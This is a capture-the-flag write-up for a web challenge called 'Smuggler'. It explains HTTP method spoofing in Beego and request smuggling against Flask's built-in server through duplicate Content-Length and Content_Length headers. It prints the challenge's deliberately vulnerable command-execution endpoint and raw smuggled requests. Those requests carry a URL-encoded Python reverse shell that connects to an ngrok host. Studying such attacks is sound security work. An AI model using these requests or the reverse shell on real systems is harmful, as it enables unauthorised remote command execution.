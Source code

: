 ```yaml
---
description: HTTP Request Smuggling and Method Spoofing
---
```


# Smuggler

## Challenge

{% hint style="info" %}
Web, 5 Solves
{% endhint %}

> We have managed to leak the source code of an application we want to gain access to, however we couldn't figure out how to trigger the vulnerability we found in it, can you help us?

{% file src="../../.gitbook/assets/src.tar (4).gz" %}

## Solution

This challenge consists of 3 services - Traefik (a HTTP proxy), a Python microservice, and a Go microservice.

### Traefik

The configuration file is shown below. This service acts as a reverse proxy for the Go microservice, and only accepts the POST, GET, OPTIONS, DELETE and PATCH methods.

```javascript
[http]
  [http.routers]
    [http.routers.Router0]
      entryPoints = ["web"]
      service = "app"
      rule = "Method(`POST`, `GET`, `OPTIONS`, `DELETE`, `PATCH`)"

  [http.services]
    [http.services.app]
      [[http.services.app.weighted.services]]
        name = "appv1"

    [http.services.appv1]
      [http.services.appv1.loadBalancer]
        [[http.services.appv1.loadBalancer.servers]]
          url = "http://go-microservice:8080/"
```

### Go Microservice

Taking a look at the Go microservice, we could see that the Beego web framework is used. This service acts as a reverse proxy for the Python microservice when the `PUT` method is used.

```go
package main

import (
	"fmt"
	"github.com/beego/beego/v2/server/web"
	"net/http/httputil"
	"net/url"
)

type MainController struct {
	web.Controller
}

func (this *MainController) Get() {
	fmt.Println(this.Ctx.Request.ContentLength)
	this.Ctx.WriteString("OK")
}

func (this *MainController) Put() {
	targetURL := "http://python-microservice:80/"
	url, err := url.Parse(targetURL)
	if err != nil {
		panic(fmt.Sprintf("failed to parse the URL: %v", err))
	}
	proxy := httputil.NewSingleHostReverseProxy(url)
	proxy.ServeHTTP(this.Ctx.ResponseWriter, this.Ctx.Request)
}

func main() {
	web.Router("/", &MainController{})
	web.Run()
}

```

### Python Microservice

Finally, the Python microservice allows us to run arbitrary commands when the GET method is used. That seems like where we need to go.

```python
import os
from flask import Flask, request
from werkzeug.serving import WSGIRequestHandler

app = Flask(__name__)


@app.route('/')
def run_cmd():
    if 'cmd' in request.args:
        os.system(request.args['cmd'])
    return 'OK'


@app.route('/', methods=['POST'])
def echo_request():
    return request.get_data()


if __name__ == '__main__':
    WSGIRequestHandler.protocol_version = "HTTP/1.1"
    app.run(host='0.0.0.0', port=80, threaded=True, debug=False)

```

### HTTP Method Spoofing

To get to the Python microservice in the first place, we need to use the PUT method on the Go microservice. Yet, the Traefik proxy only allows the POST, GET, OPTIONS, DELETE and PATCH methods.

As of this CTF, both the Traefik and Beego versions used were the latest versions, with no known CVEs. How then, can we "smuggle" a PUT request to the Go microservice?

I took a look at the Beego [source code](https://github.com/beego/beego/blob/69c17fafbbfd796c7435d60b13f8d557c8850691/server/web/router.go#L1128-L1144), and found some interesting information on how it handles routing. Although the PUT request method is not directly supported by Beego in the request line itself, there is a way to issue a "pseudo" PUT request.

![](<../../.gitbook/assets/Screenshot 2022-07-05 at 12.22.13 PM.png>)

Specifically, when the POST method is used, a check is done on the `_method` query parameter. If we use `?_method=PUT` for instance, the request is routed as if it was a PUT request.

Therefore, the following request would reach the `Put()` handler in the Go microservice:

```http
POST /?_method=PUT HTTP/1.1
Host: foo.bar
```

### HTTP Request Smuggling

Now that we have reached the PUT handler in Beego, we have access to the Python microservice. The Python microservice runs on Flask's built-in server, which is _not_ secure for production. In particular, it does very little to mitigate [HTTP request smuggling](https://portswigger.net/web-security/request-smuggling) attacks.

For instance, underscores (`_`) are converted to hyphens (`-`) and interpreted as such. This means that the `Content_Length` header is treated in the same way as `Content-Length`.&#x20;

The built-in server also allows duplicate `Content-Length` headers, leading to differences between the upstream servers (Traefik and Beego) and the Flask built-in server in interpreting the length of HTTP requests.

Consider the following request:

```http
POST /?_method=PUT HTTP/1.1
Host: localhost
Content-Length: 307
Content_Length: 0

GET /?cmd=python%20-c%20'import%20socket%2csubprocess%3bs%3dsocket.socket(socket.AF_INET%2csocket.SOCK_STREAM)%3bs.connect((%222.tcp.ngrok.io%22%2c%2011237))%3bsubprocess.call(%5b%22%2fbin%2fsh%22%2c%22-i%22%5d%2cstdin%3ds.fileno()%2cstdout%3ds.fileno()%2cstderr%3ds.fileno())' HTTP/1.1
Host: localhost
```

RFC 7230 [allows](https://www.rfc-editor.org/rfc/rfc7230#section-3.2) both underscores and hyphens in header field names.`Content-Length` and `Content_Length` are therefore two distinct headers - they should not be interoperable. In this case, `Content_Length` should be treated like any other header, and not a special header indicating the length of the request body.

Both Traefik and Beego are RFC-compliant in this regard, but the Flask built-in server is not. When both Traefik and Beego process the above request, the second GET request is simply subsumed as part of the first POST request due to the `Content-Length` header indicating a length equal to the length of the second GET request.

The second RFC violation comes from accepting multiple `Content-Length` headers with different values. As [per the RFC](https://www.rfc-editor.org/rfc/rfc7230#section-3.3.3),

> If a message is received without Transfer-Encoding and with either multiple Content-Length header fields having differing field-values or a single Content-Length header field having an invalid value, then the message framing is invalid and the recipient MUST treat it as an unrecoverable error.

In this case, the Flask built-in server takes the _last_ `Content-Length` header value as the length of the request body. Therefore, it sees the length of the request body as 0.

```http
Content-Length: 307
Content_Length: 0
```

When the POST request arrives, it is treated as two separate requests, as though the following request was made:

```http
POST /?_method=PUT HTTP/1.1
Host: localhost
Content-Length: 0

GET /?cmd=python%20-c%20'import%20socket%2csubprocess%3bs%3dsocket.socket(socket.AF_INET%2csocket.SOCK_STREAM)%3bs.connect((%222.tcp.ngrok.io%22%2c%2011237))%3bsubprocess.call(%5b%22%2fbin%2fsh%22%2c%22-i%22%5d%2cstdin%3ds.fileno()%2cstdout%3ds.fileno()%2cstderr%3ds.fileno())' HTTP/1.1
Host: localhost
```

We have smuggled a GET request to the Python microservice, allowing us to get a reverse shell and obtain the flag.

